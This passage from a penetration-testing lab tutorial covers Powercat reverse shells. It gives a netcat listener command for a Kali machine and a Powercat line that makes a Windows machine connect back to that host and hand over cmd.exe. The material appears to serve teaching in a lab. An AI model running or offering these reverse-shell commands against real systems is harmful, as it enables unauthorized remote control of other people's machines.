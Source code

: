 ![](./img/Chapter4/35.png)

### **3.6. Powercat Reverse Shells**

The Windows machine will connect to the Kali Linux machine and send the command shell to the Kali Linux machine.

Set up a listener on port 1308 on the Kali Linux machine

```bash
nc -nlvp 1308
```

From the Windows machine, we will use Powercat to to send a reverse shell

```powershell
powercat -c 192.168.190.133 -p 1308 -e cmd.exe
```

- `-e`: The appication to execute once a connection is made to a listening port

![](./img/Chapter4/36.png)

![](./img/Chapter4/37.png)
